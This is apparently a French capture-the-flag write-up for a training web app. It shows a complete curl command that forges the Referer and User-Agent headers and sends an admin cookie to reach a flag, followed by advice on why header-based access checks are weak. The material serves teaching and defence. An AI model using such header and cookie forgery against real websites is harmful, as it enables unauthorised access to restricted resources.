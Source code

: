 EXPLAIN:

Sur le lien en bas du footer

On voit dans le commentaire :

You must cumming from : "https://www.nsa.gov/" to go to the next step
Let's use this browser : "ft_bornToSec". It will help you a lot.

Panneau inspection > Réseau > index.php? …. 

clic droit> copier > copier au format curl 

On change Referrer et User-Agent

curl 'http://192.168.1.17/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
-H 'Accept-Language: fr-FR,fr;q=0.9' \
-H 'Connection: keep-alive' \
-H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327' \
-H 'DNT: 1' \
-H 'Referer: https://www.nsa.gov/' \
-H 'Upgrade-Insecure-Requests: 1' \
-H 'User-Agent: ft_bornToSec' \
--compressed \
--insecure | grep flag

DANGER

Se referrer aux objets du header pour donner l'acces a certaines fonctionnalites d'un site web n'est pas une bonne idee, car nous pouvons aisement tronquer ces donnees a l'aide de curl.

AVOID

User-agent : decrit le server et reseau utilise par l'utilisateur. 
Offrir des service differents en fonction du navigateur n'est pas une bonne idee.
On preferera la detection de prise en charge de fonctionnalites plutot que du navigateur.

Referer : contient l'adresse de la page web precedente. Permet d'identifier la provenance des visiteurs.
Limiter l'acces a certaines ressources aux seuls referants autorises n'est une bonne idee non plus. 
On prefera l'utilisation de cookies temporaires.

